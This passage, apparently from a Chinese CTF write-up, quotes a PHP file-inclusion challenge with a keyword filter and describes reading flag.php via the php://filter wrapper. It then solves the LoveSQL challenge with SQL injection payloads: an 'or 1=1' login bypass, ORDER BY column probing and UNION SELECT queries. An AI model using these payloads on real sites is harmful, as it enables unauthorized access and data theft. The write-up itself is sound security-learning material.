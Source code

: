 ![image-20230420150851373](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420150851373.png)

访问它

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0); //报错回显
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    } //strstr函数搜索在另一字符串的第一次出现
    include($file); 
//flag放在了flag.php里
?>
```

使用filter协议读取flag.php，base64解密

![image-20230420151709003](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420151709003.png)

## [极客大挑战 2019]LoveSQL

万能密码能进

```sql
1' or 1=1#
```

但不是flag

先查一下字段

```sql
admin' order by 3# //无报错
admin' order by 4# //有报错
```

![image-20230420152713873](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420152713873.png)

联合查询

```
1'union select 1,2,3#
```

回显在2，3上

![image-20230420152917362](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420152917362.png)

看数据库

```sql
1'union select 1,database(),3#
```

![image-20230420152953584](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420152953584.png)
